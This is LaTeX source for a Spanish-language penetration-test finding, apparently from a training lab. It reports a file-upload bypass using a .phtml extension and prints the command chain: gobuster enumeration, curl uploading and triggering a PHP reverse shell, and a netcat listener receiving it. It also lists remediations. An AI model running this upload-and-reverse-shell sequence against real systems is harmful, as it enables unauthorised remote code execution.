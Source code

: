 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{center}
\renewcommand{\arraystretch}{1.5}
\begin{longtable}{@{} p{3.5cm} p{10cm} @{}}
\toprule
\textbf{Campo} & \textbf{Valor} \\
\midrule
ID del hallazgo & H-01 \\
\midrule
Fase & $\blacksquare$ Explotación \\
\midrule
Descripción & \\
& El formulario de carga de archivos ubicado en \texttt{/internal/} (endpoint \texttt{index.php}) bloqueaba la extensión \texttt{.php} pero no validaba correctamente extensiones alternativas interpretadas por Apache como PHP (\texttt{.phtml}). Esto permitió subir una reverse shell en PHP disfrazada con extensión \texttt{.phtml} y ejecutarla accediendo a su URL pública, obteniendo ejecución remota de código con el usuario \texttt{www-data}. \\
\midrule
Componente afectado & Formulario de carga de archivos — Apache httpd 2.4.41 / PHP (directorio \texttt{/internal/uploads/}) \\
\midrule
Categoría (OWASP / CWE) & CWE-434: Unrestricted Upload of File with Dangerous Type / OWASP A04:2021 - Insecure Design \\
\midrule
CVE (si aplica) & No aplica (falla de configuración, no vulnerabilidad de producto) \\
\midrule
CVSS estimado & $\blacksquare$ Alto \\
\midrule
Evidencia (captura / comando) & \\
& \texttt{gobuster dir -u http://<IP>:3333 -w common.txt} → directorio \texttt{/internal/} encontrado. \texttt{curl -F "file=@shell.phtml" http://<IP>:3333/internal/index.php} → respuesta \texttt{Success}. \texttt{curl http://<IP>:3333/internal/uploads/shell.phtml} → conexión reversa recibida en listener \texttt{nc -lvnp 1234} con \texttt{uid=33(www-data)}. Ver \texttt{bitacora/explotacion\_vulnversity.txt} y capturas en \texttt{evidencias/explotacion/}. \\
\midrule
Herramienta utilizada & Gobuster, curl, Netcat, PHP reverse shell (pentestmonkey) \\
\midrule
Impacto en la Tríada CIA & $\blacksquare$ Confidencialidad $\blacksquare$ Integridad $\blacksquare$ Disponibilidad \\
\midrule
Salvaguarda propuesta & \\
& Validar el tipo de archivo subido por contenido real (magic bytes/MIME) y no solo por extensión. Mantener una lista blanca estricta de extensiones permitidas. Servir el directorio de uploads sin permisos de ejecución (\texttt{php\_admin\_flag engine off} o similar) y fuera del webroot ejecutable. Renombrar archivos subidos con nombres aleatorios no predecibles. \\
\midrule
Riesgo residual tras aplicar & $\blacksquare$ Bajo \\
\bottomrule
\end{longtable}
\end{center}
\end{document}

